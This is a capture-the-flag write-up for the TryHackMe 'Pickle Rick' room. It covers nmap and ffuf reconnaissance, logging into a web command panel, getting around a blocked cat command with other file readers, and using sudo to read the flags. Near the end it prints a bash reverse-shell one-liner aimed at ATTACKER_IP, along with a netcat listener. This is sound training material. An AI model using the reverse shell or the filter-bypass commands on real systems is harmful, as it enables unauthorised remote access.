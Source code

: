 ```yaml
---
layout: post
title: Pickle Rick CTF
date: 2025-06-20 23:47 +0300
categories: [CTF,THM]
tags: [CTF,THM, write-up]
---
```


# Pickle Rick CTF
link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.


Let's start:\
the ip of my Target Machine is: `10.10.54.36` (yours will be different).

so let's start with a [NMAP] scan:
`nmap -sS -sV -O -v 10.10.54.36`

Explanation:
- -sS - SYN scan is the default and most popular scan option, It can be performed quickly, It is also relatively unobtrusive and stealthy since it never completes TCP connections
- -sV - Enables version detection
- -O - Enables OS detection
- -v - Increases the verbosity level, causing Nmap to print more information about the scan in progress.

Result:
![scan](https://i.imgur.com/QXAEZGa.png)

As we can see from the scan

Open Ports:
```terminal
22/tcp ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

OS:
`OS details: Linux 4.15`

So with 80 port open let's open a browser and go to `10.10.54.36:80` 
![first look](https://i.imgur.com/w29lBzP.jpeg)

First let's check if there is something hidden in the html by opening dev-tools:

![https://i.imgur.com/hUtARqY.png](https://i.imgur.com/hUtARqY.png)
There is a comment in the html giving us a username:
`Username: *********`

Now that we have a user we need to find a password (maybe crack it or brut-force it?) and something to login to.

Let's check if there is more routes for `http://10.10.54.36:80/`, im useing [ffuf]:
`ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.54.36:80/FUZZ`

Explanation:
- -w - a word list
- -u - Target URL

ffuf will go through the words in the word list and use them where the `FUZZ` is, and print successful requests.

Result:
![ffuf](https://i.imgur.com/vBhDtFA.png)
(some alternative tools: gobuster, dirb)


As we can see we have new leads:
```terminal
/assets (200 OK)                  
/.hta (403 Forbidden)                  
/.htaccess (403 Forbidden)              
/.htpasswd (403 Forbidden)               
/index.html (200 OK)              
/robots.txt (200 OK)             
/server-status (403 Forbidden)
```
\
Let's check out `/robots.txt`:
![robots.txt](https://i.imgur.com/RZ8L7iv.png)
So in the [robots.txt] we got `****************` but we still not sure what to use it for and where....
maybe it's a password?

After trying to use this to connect to the [SSH] with: `ssh R1ckRul3s@10.10.54.36` I can see that the SSH is configured to use keys instead of passwords.

We also see that `/assets` is open let's go there:
![assets](https://i.imgur.com/t4h9apQ.png)

We can see a list of files
checking those file data using [hex editor] did not yeeld any new leads
also there was no [Steganography] in those pictures.

If those pictures are here, there must be a use for them (like `rickandmorty.jpeg` we see at the index) and one of them is a hint for a hidden route ffuf didnt found: `/portal.php` that redirect us to `login.php` 

![portal](https://i.imgur.com/sKf37e7.png)

Let's try the username and the string we found in the robots.txt
```
Username: *********
Password: ****************
```

And we are in :D !!!
![command panel](https://i.imgur.com/IhkUzDf.png)

We get a command panel that let us run command in the machine
also can see multiple tabs in the Rick Portal, but when we try to go to them we get denied...

Let's try to see what around us with `ls`:
```terminal
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
We can see all the files in this folder and there it is the first flag `Sup3rS3cretPickl3Ingred.txt`!

Let's print it with `cat Sup3rS3cretPickl3Ingred.txt`

But not so fast seems like that command is disabled!
![fail](https://i.imgur.com/CuyBThz.png)

Let's try to print it using other methods:

```
head Sup3rS3cretPickl3Ingred.txt - disabled
tail Sup3rS3cretPickl3Ingred.txt - disabled
more Sup3rS3cretPickl3Ingred.txt - disabled
less Sup3rS3cretPickl3Ingred.txt - success!!
------------
some more fun ways:
awk '{ print }' Sup3rS3cretPickl3Ingred.txt
sed '' Sup3rS3cretPickl3Ingred.txt
grep -m1 "" Sup3rS3cretPickl3Ingred.txt
cut -c1- Sup3rS3cretPickl3Ingred.txt
nl Sup3rS3cretPickl3Ingred.txt
```

🚩**~And we got the first flag (What is the first ingredient that Rick needs?)~**🚩

Also we see a file name `clue.txt` let see what clue we got:
```terminal
$> sed '' clue.txt

Look around the file system for the other ingredient.
```
So we now the rest of the ingredient (flags) are around the system

After looking around using `ls /...` we found the second ingredient in `/home/rick/` 
```terminal
$> ls /home/rick/
second ingredients
```

And using `less '/home/rick/second ingredients'` 

🚩**~we got the second flag (What is the second ingredient in Rick’s potion?)~**🚩

After looking around more the only place left to look at is `/root/` but we dont have the permissions to go in....

Let's give `sudo` a try: 
```terminal
$> sudo ls /root/
3rd.txt
snap
```
And it worked we have here the third flag!!

`sudo less /root/3rd.txt`

🚩**~we got the third flag (What is the last and final ingredient?)~**🚩

And that's it we helped Rick make his potion and transform himself back into a human from a pickle.


## Alternative way to solve the CTF

After getting into Rick Portal we can generate a [reverse shell] to make our life easer using our own shell:


In our machne let's create a listener using:
`nc -lvnp PORT`

And now let's send the [reverse shell] to the server

`bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'`

And we get a [reverse shell] to the machine that mean we don't have and limitations from the Rick Portal
```
/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
🚩~first flag~🚩

/var/www/html$ cat '/home/rick/second ingredients'
🚩~second flag~🚩

/var/www/html$ sudo cat /root/3rd.txt
🚩~third flag~🚩
```

\
Hope this was helpful and fun for you to read :)\
Shai Shaked.